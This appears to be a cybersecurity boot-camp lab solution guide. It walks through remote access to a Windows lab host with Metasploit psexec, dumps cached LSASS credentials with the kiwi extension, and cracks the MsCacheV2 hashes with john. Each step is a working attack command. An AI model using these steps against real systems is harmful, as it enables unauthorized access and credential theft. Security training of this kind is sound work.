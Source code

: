 ## Solution Guide: Credential Dumping

In this activity, you used the Metasploit `kiwi` extension to dump the credentials cached on the WIN10 machine.

### Instructions

1. Load the `psexec` module: `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
3. Run the module with `run`.

4. In your Meterpreter session, load the `kiwi` extension.

     - `load kiwi`

     ![A screenshot depicts the results of the command.](loadkiwi.PNG)

5. Once a new extension is loaded into Metasploit, it will update the help menu. View the `kiwi` command options by calling the help menu in Meterpreter.

     - `?`

     ![A screenshot depicts the results of the command.](kiwi.PNG)

6. Dump all the cached credentials from LSASS using a `kiwi_cmd` command. 
	 
	 - `kiwi_cmd lsadump::cache`
	 
	 ![A screenshot depicts the results of the command.](lsadump.PNG)

7. In the output, the hashes are displayed after the "MsCacheV2 field." MsCacheV2 is just the format of the hash. Save the hashes in the format `username:password`.
	
	-	Using `john`, attempt to crack the password. Your `john` command should use the flag `--format=mscash2`, e.g., `john --format=mscash2 hashes.txt`.

	![Image of the hash being cracked with john.](john.PNG)

8. You should now have the plain-text password to the new account bbanner.

	- 	`bbanner:Winter2021`
                                                                                                                            
---
&copy; 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



